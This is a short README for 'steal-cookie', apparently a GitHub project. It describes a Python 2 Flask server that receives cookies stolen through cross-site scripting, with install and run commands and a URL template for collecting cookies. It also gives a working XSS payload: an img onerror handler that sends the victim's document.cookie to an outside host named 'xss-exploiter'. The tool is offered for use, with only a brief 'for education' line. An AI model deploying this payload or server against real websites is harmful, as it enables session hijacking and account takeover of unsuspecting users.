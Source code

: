 # steal-cookie
steal cookies from website using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````

# Run It :
 
 ````
 $ python2 xss.py
 ````
 
# stealing cookie using xss :

 <h2>enter the cookie in this url </h2>
 
 ````http://YOUR_IP/cookie?cookie=COOKIE```` 

# Payload :
  
  ````
  "><img src="x" onerror='document.location="http://xss-exploiter/cookie?cookie=" + document.cookie'>
  ````
  
 # Note :
    
    This Tool For education .. Good Luck ^_^

# My Links :

<a href="https://www.facebook.com/profile.php?id=100015121337012" > <h3> Facebook </h3></a>

